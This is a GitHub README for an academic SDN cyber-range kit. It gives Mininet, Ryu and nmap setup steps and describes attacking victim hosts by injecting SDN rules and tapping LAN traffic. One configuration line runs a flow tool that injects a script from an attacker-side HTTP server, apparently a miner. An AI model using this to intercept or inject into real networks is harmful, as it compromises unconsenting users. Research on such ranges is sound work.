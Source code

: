 # SDNcybeRangeKit

A penetration testing and digital forensics environment 

**Warning: this [PRIVATE] project is for academic/research purposes only.**

A blog post about this project can be read here:  http://www.ivanletteri.it/2019/02/10/sdncrkit/

![SDNcyberRangeKit]( https://www.ivanletteri.it/2019/02/10/sdncrkit/master/sdncrkit-logo-small.png "SDNcybeRangeKit")

INSTALL MININET

git clone git://github.com/mininet/mininet
cd mininet/
mininet/util/install.sh -nfv
sudo mn --test pingall
sudo apt-get install net-tools
sudo mn --test pingall

INSTALL PIP and PIP3

sudo apt install python-pip
sudo apt install python3-pip

INSTALL RYU Controller 

git clone git://github.com/osrg/ryu.git
cd ryu; pip install .
ls
./run_tests.sh 
cd ..
sudo apt install gcc python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev zlib1g-dev
cd ryu/
ls
cd bin/
ls
./ryu-manager ../ryu/app/simple_switch_13.py 

INSTALL NMAP for testing

sudo apt-get install nmap
cd ryu/
ls
./run_tests.sh 
ryu-manager ../ryu/app/simple_switch_13.py

nmap 127.0.0.1 -p-

START Mininet with Remote Ryu Controller

sudo mn --controller=remote,ip=127.0.0.1,port=6633


## Concept
- Performs a SDN scenario attacks to all selected victims
- Injects SDN rules 
- Tapping the network
- All the devices victims connected to the Lan network, will be monitored for the SDNcybeRangeMonitor


## Use
- install.sh
```
bash install.sh
```
- edit hosts.txt with one IP per line
- edit controller.py, line 30, with the RyuControlleMiner httpserver IP:
```py
os.system("~/.local/bin/flowdump -s 'dump.py http://10.0.2.20:5600/script.js' -T")
```
- execute sdn-cyberange-kit.py
```
python3 sdn-cyberange-kit.py ipgateway
```

![network](https://www.ivanletteri.it/2019/02/10/sdncrkit/master/SDNcybeRangeKit-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/IvanLetteri/SDNcybeRangeKit/blob/master/virtualbox_scenario_instructions.md



![demo](https://www.ivanletteri.it/2019/02/10/sdncrkit/master/SDNcybeRangeKit-demo-cutted.gif "demo")
